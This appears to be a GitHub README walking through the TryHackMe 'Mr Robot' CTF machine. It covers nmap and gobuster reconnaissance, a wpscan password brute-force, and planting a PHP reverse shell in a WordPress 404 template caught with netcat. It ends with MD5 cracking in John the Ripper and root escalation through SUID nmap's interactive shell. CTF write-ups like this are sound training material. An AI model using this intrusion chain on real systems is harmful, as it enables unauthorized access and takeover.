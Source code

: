 # MRrobotCTF
#created this repo as a guide to mrrobot CTF/Vuln machine follow the steps have fun !
QMARK CTF



Steps:

#download the vpn file to connect tryhackme server
#save in desktop 
#open terminal in the folder and type command [sudo openvpn filename.octozion.ovpn]     //if you dont have openvpn installed follow this link https://openvpn.net/community-resources/installing-openvpn/
#Join the room
#Task 1:instructions 
#Task2 :
    KEY1 & 2 & 3 :
    #Cope the IP Address to the clipboard
    #Open terminal  make a folder to work with this CTF using the command [mkdir]
    #Run nmap on the ip address [sudo nmap -sV -A -sC 10.10.44.213 | tee nmapout.txt ]       //network scan and storing the result in nmapout.txt
    #Port  80 is open
    #Use burp suit > proxy > open browser > intercept off and paste the ip address
    #Use gobuster with the wordlist downloaded from my githum [sudo gobuster -u http://10.10.44.213/ dir -w wordlistgobuster.txt -x .txt | tee gobusterout.txt]
    #Found /wp-admin , robots.txt
    #Use wp-scan [ sudo wpscan --url 10.10.35.137 --passwords simplefsociety.txt -U simplefsociety.txt ]
    #Download the shell https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
    #inside wp dashboard go to  appreance and editor
    #edit in 404.php code ane save and use netcat [nc -lvnp 1234 ]
    #To make the session more stabel [ python -c 'import pty;pty.spawn("/bin/bash")' ]
    #now to goto /home/robot two file now use command [cat password.raw-md5 ]
    #copy the md5 has and use john the ripper and save as mrrobot.hash
    #use john the ripper tool   [sudo john mrrobot.hash --wordlist=simplefsociety.txt --format=Raw-MD5]
    #got the password abcdefghijklmnopqrstuvwxyz
    #type su robot and type the password and cat the key 2
    #use the command [find / -perm +6000 2>/dev/null | grep '/bin'] which checks the privilage excaltion to goto root
    #nmap is inside it 
    #now use https://gtfobins.github.io/gtfobins/nmap/	to  get the command for privillage excalation
    #nmap --interactive     //command to shift nmap interactive mode
    #nmap> !sh      //command to shit root
    # ls /root/     //gives the third key
    #open the [IP/key-1-of-3.txt] //done for the first key.
